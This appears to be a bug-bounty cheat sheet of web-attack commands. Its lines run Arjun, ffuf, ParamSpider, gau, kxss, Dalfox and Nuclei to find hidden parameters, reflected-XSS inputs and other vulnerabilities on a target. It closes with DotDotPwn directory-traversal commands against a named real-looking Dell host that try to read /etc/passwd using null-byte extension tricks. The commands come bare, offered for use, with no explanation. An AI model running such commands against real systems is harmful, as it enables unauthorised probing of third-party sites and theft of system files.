 <details>
  <summary>Arjun</summary>

    arjun -u "https://target.com" -m get --stable |anew arjunParam.txt
    
    arjun -i hiddenFiles.txt -t 10 -c 300 -T 30 -d 10 -oB 127.0.0.1:8080 -m POST -oT hiddenParam1.txt
    
    arjun -i allURLs.txt -t 10 -c 300 -T 30 -d 10 -oB 127.0.0.1:8080 -m POST -oT hiddenParam2.txt

</details>

--------------------------------------------------------------------------------------

ffuf -u https://target.com/page.php?FUZZ=test -w /mnt/CyberSecurity/SecLists/Discovery/Web-Content/url-params_from-top-55-most-popular-apps.txt |anew ffufParam.txt

cat ffufParam.txt arjunParam.txt |anew allHidenParam.txt



#### Paramspider | gau | kxss
```
python3 ParamSpider/paramspider.py -d target | kxss 
cat subdomains.txt | gau | grep "?" | kxss
```
#### parameter brute forcing 
    Arjun -u host.com -w Wordlists/Param-Miner.txt

#### Dalfox tool for scanning
    Dalfox url host.com?parameters=xss

#### Nuclei to fuzz for vulns
    nuclei -l parameters.txt -t nuclei_templates/ -et nuclei_templates/waf -et nuclei_templates/others

#### DotDotPwn --> <https://github.com/wireghoul/dotdotpwn>  --> for Directory Traversal automation
    dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "/???/??ss??" -k "root" -d 20 -b -e "%00.png"
    dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "etc/passwd" -k "root" -d 20 -b
